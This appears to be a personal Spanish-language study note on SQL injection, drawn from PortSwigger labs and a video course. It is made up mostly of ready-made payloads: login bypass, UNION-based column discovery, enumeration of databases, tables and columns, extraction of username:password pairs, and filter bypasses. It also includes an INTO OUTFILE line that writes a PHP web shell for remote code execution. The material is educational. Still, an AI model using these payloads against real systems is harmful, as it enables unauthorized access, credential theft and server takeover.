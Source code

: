 # ¿Qué son las SQL Injection?
Método de infiltración en el que se usa SQL con el fin de obtener una información privilegiada, bypasear un panel etc...


# ¿En que momento se deben utilizar?
Variable a cambiar --> $WORD

### Vulnerabilty in where cluase allowing retrieval of hidden data

````sql
$WORD' or 1=1-- -
-- o se puede poner así también:
$WORD' or 1=1#
````
Ej:
![[Pasted image 20230122161824.png]]

#### Explicación
- Con la primera comilla simple(**'**) estamos haciendo que se cierre el campo de la categoría.
- **or 1=1** --> Esto se pone porque se está indicando que es **verdadero**
- Con el comentario (**-- -**) estamos indicando que el resto de la query que se aplica **no se interprete**

Filtrame por la categoría accesorios o 1=1 (que es true)
![[Pasted image 20230122162356.png]]

### Vulnerability allowing login bypass
````sql
administrator'-- -
o
administrator'#
````


#### Explicación
- Con la comilla simple estamos cerrando el campo

- Si no esta bien sanitizado y en el panel de administrador hace una query parecida a la de la imagen para comprobar que el usuario y la contraseña sean verdadero podemos comentar el resto de la query con **-- -** o **#** 
![[Pasted image 20230122164703.png]]

Así que estamos diciendo que cuando el usuario sea válido podremos entrar

Si pide la contraseña puede que sea por la validación de la parte de front-end, se pone cualquier cosa y listo
![[Pasted image 20230122165427.png]]

### Union Attack, determing the number of columns returned by the query 

El primer paso es **averiguar el número de columnas**

Error based
````sql
$WORD' order by 100-- -
````

![[Pasted image 20230122171131.png]]


#### Explicación general
**Error based** o cuando se ve un error.
Esto se trata de causar un error que se mostrará en la página y así nosostros identificamos que es vulnerable a sqli

100 --> Es el número de columnas por el que le estamos pidiendo que ordene, en caso de no existir 100 columnas saltaría un error, de está forma vamos a ir probando **hasta que no salte error**, cuando esto sea así significa que ese es el **máximo de columnas**


**La diferencia de usar order by y del unio**n es que el union **solo se mostrara cuando es el número exacto de columnas**, mientras que el **order by** se mostrará cuando sea el número **igual que la columna o más pequeño**
También se puede con union:
````sql
$WORD' union select 1-- -
````


En este caso cuando no de error, es que esa es la cantidad de columnas existentes

Una vez conocido el total de columnas utilizamos el union:
````sql
$WORD' union select 1,2,3-- -
````
Los **números representan las columnas existentes**.
Si no funciona con números probar con **null**
![[Pasted image 20230122171929.png]]
Si esto funciona podemos empezar a introducir comandos sql en los números:
````sql
$WORD' union select version(),user()-- -
````
Puede que en algunas webs se interprete php y podamos poner comandos ("\<?php system('whoami'); ?>")

==Atención!==
**No todos los campos son válidos/inyectables** para introducir los comandos, tenemos que fuzzear  todos los campos para ver cuál es el válido

##### SQLI --> RCE

**Si tenemos permiso de escritura** incluso podemos colar archivos:
````sql
$WORD' union select <?php system('whoami'); ?>,"test" into outfile "/var/www/html/COMANDO.php"-- -
````
La ruta no tiene porque ser está, eso tendríamos que investigar cual sería

#### Listar BD

**Ver las bases de datos disponibles**
````sql
$WORD' union select 1,schema_name from information_schema.schemata-- -
````
**En algunas ocasiones no deja mostrar varias filas**, para ello podemos utiliza la función concat()
````sql
$WORD' union select 1,concat(schema_name) from information_schema.schemata-- -
````

==Importante==
La función group_concat() y concat() no hacen lo mismo
- ``group_concat()`` --> combina valores en **columnas**
- ``concat()`` --> combina valores en **filas**

También podemos ir viendo los resultados uno a uno con limit:
````sql
$WORD' union select 1,schema_name from information_schema.schemata limit 0,1-- -

-- 1,1   2,1    3,1 ...
````


````sql
$WORD' union select schema_name,null from information_schema.schemata-- -
````

#### Listar tablas

Una vez conozcamos las bases de datos tenemos que **averiguar las columnas/filas de estas**

Lo malo de esto es que **te representa todas las tablas de todas las bases de datos**
````sql
$WORD' union select table_name,null from information_schema.tables-- -
````

Para que no pase esto podemos utilizar where:
````sql
$WORD' union select table_name,null from information_schema.tables where table_schema='public'-- -
````

#### Listar Columnas
Ahora que conocemos las tablas queremos **dumpear las columnas**
````sql
$WORD' union select column_name,null from information_schema.columns where table_schema='NombreBaseDeDatos' and table_name='NombreTablaAListar' -- -
````

#### Ver campos y datos
Si lo permite podemos utilizar los dos campos para que un lado aparezca el nombre y en otro aparezca la contraseña:
````sql
$WORD' union select username, password from users-- -
````

Si no te lo permite y solo puedes con un campo puedes utilizar la función concat:
````sql
$WORD' union select null, concat(username,':',password) from users-- -
````

En caso de que sea otra base de datos la que contiene estos campos tendríamos que indicarlo
````sql
$WORD' union select null, concat(username,':',password) from OtraTabla.users-- -
````

##### Otra forma de concatenar la información (Bypassing con pipes || )
Si no permite la anterior podemos probar así:
````sql
$WORD' union select null, username||':'||password from users-- -
````

##### Bypassing cadenas de caracteres con hexadecimal
Si no deja poner una cadena de separatoria (como son los : puedes poner su valor en **hexadecimal**):
````sql
$WORD' union select null, concat(username,'0x3a',password) from users-- -
````

Si no deja representar alguna cadena de texto en otro sitio sería igual, lo podemos representar en hexadecimal, para ello podemos utilizar lo siguiente:
````sql
echo "admin" | tr -d '\n' | xxd -ps
````
Con el tr -d '\n' le estamos quitando el salto de línea para que se represente

En caso de que no dejará podriamos ir a la [cheat sheet de portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)


Vídeo de s4vi --> 1:13:20

# Fuentes
Laboratorio Portwsigger
[S4vitar](https://www.youtube.com/watch?v=C-FiImhUviM&list=PLWys0ZbXYUy4WG1HQEtg90-bspFWjExPy)
[Cheat sheet de portswigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
